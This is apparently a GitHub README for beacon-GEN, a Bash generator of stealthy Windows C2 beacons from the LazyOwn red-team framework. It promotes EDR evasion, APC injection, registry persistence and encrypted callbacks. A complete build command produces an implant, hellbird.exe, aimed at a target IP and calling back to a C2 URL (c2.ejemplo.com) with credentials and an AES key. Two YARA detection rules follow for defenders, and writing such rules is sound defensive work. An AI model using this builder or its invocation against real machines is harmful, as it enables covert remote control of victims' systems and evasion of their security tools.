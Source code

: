 # 🔥 === Black Basalt beacon-GEN v1.2 ===
<img width="1664" height="928" alt="image" src="https://github.com/user-attachments/assets/e76ce510-dad2-4c6c-9910-c245ff71c9f4" />

## 🔍 INFO
- **GitHub Repository: https://github.com/grisuno/beacon
- **License: GNU General Public License v3.0 (GPLv3)
- **Author**: grisun0
- **Target Platform**: Windows (x64)
- **Source Platform**: GNU/Linux 6.12 (tested on Kali)
- **Purpose**: Academic research and red teaming exercises

> ⚠️ This project is released under GPLv3. See the DISCLAIMER section for full legal terms. 

## 🔍 Overview
beacon-GEN is a next-generation Bash-based configuration engine designed to generate highly customizable, stealthy C2 beacons for offensive operations. Built as the core orchestration layer of the LazyOwn RedTeam framework, it enables red teams to dynamically configure malleable C2 profiles, AES-256 encrypted communication, multi-UA rotation, and client-side persistence logic — all through a clean, CLI-driven interface.

This script generates the foundational configuration for advanced implants that leverage, APC injection, and anti-analysis routines to evade modern EDR solutions.

Intended for ethical hacking, penetration testing, and academic research, this tool supports seamless integration into automated attack chains and red team infrastructure.


## For RedTeamers
```bash
./gen_beacon.sh \
  --target 192.168.1.50 \
  --url https://c2.ejemplo.com:8443 \
  --maleable /api/v2/submit \
  --client-id win10-pro \
  --c2-host 192.168.1.10 \
  --c2-user AdminC2 \
  --c2-pass "P@ssw0rd_Secret_2025" \
  --c2-port 8443 \
  --aes-key aabbccddeeff00112233445566778899aabbccddeeff00112233445566778899 \
  --user-agent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36" \
  --user-agent1 "Chrome/120.0.0.0 Safari/537.36" \
  --user-agent2 "CustomAgent/1.0 (compatible)" \
  --user-agent3 "BotNet-X/2.5" \
  --output hellbird.exe
```
## For BlueTeamers

```yara
rule beacon_GEN_Config_Template {
    meta:
        author = "LazyOwn BlueTeam"
        description = "Detects beacon-GEN generated C2 configuration"
        license = "GPLv3"

    strings:
        $c2_url_macro = "C2_URL \"$URL\"" ascii wide
        $maleable_macro = "MALEABLE \"$MALEABLE\"" ascii wide
        $client_id_macro = "CLIENT_ID \"$CLIENT_ID\"" ascii wide
        $aes_key_64char = /[0-9a-f]{64}/
        $winhttp_init = "WinHttpOpen(" ascii wide
        $user_agent_var = "TRAFFIC_UAS[]" ascii wide
        $output_name = "beacon.exe" ascii wide nocase

    condition:
        all of ($c2_url_macro, $maleable_macro, $client_id_macro) and
        $aes_key_64char and $winhttp_init and $user_agent_var
}
```

```yara
rule hellbird_Runtime_Behavior {
    meta:
        author = "LazyOwn BlueTeam"
        description = "Detects runtime behavior of HELLBIRD beacon"
        reference = "https://github.com/grisuno/hellbird"

    strings:
        $nt_queue_apc = "NtQueueApcThread" ascii wide
        $create_suspended = { 6A 04 6A 00 6A 00 6A 00 6A 00 6A 00 } // CREATE_SUSPENDED
        $aes_decrypt = "AES_ECB_encrypt" ascii wide
        $registry_persistence = "Software\\\\Microsoft\\\\Windows\\\\CurrentVersion\\\\Run" ascii wide
        $http_post_enc = "POST /" ascii wide
        $base64_decode = "base64_decode" ascii wide

    condition:
        $nt_queue_apc and $create_suspended and $aes_decrypt and
        ($registry_persistence or $http_post_enc) and $base64_decode
}
```

## 🎓 Educational Purpose
This project is intended to:

- Help red teams understand modern C2 evasion techniques.
- Assist blue teams in developing better detection logic.
- Promote research into secure software design and defensive hardening.
- Demonstrate the importance of runtime analysis over static signatures.

## ⚠️ DISCLAIMER - NO WARRANTY OR LIABILITY
THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.

## 🔗 Links
- https://github.com/grisuno/LazyOwn
- https://grisuno.github.io/LazyOwn/
- https://www.reddit.com/r/LazyOwn/
- https://github.com/grisuno/LazyOwnBT
- https://web.facebook.com/profile.php?id=61560596232150
- https://app.hackthebox.com/teams/overview/6429
- https://app.hackthebox.com/users/1998024
- https://patreon.com/LazyOwn
- https://deepwiki.com/grisuno/ebird3
- https://deepwiki.com/grisuno/hellbird
- https://github.com/grisuno/cgoblin
- https://github.com/grisuno/gomulti_loader
- https://github.com/grisuno/ShadowLink
- https://github.com/grisuno/OverRide
- https://github.com/grisuno/amsi
- https://medium.com/@lazyown.redteam
- https://discord.gg/V3usU8yH
- https://ko-fi.com/Y8Y2Z73AV
- https://medium.com/@lazyown.redteam/the-ebird3-chronicles-when-your-calculator-gets-a-phd-in-cybercrime-and-why-thats-perfectly-cc1738a3affc
- https://github.com/grisuno/LazyOwn/archive/refs/tags/release/0.2.58.tar.gz

![Python](https://img.shields.io/badge/python-3670A0?style=for-the-badge&logo=python&logoColor=ffdd54) ![Shell Script](https://img.shields.io/badge/shell_script-%23121011.svg?style=for-the-badge&logo=gnu-bash&logoColor=white) ![Flask](https://img.shields.io/badge/flask-%23000.svg?style=for-the-badge&logo=flask&logoColor=white) [![License: GPL v3](https://img.shields.io/badge/License-GPLv3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)

[![ko-fi](https://ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/Y8Y2Z73AV)
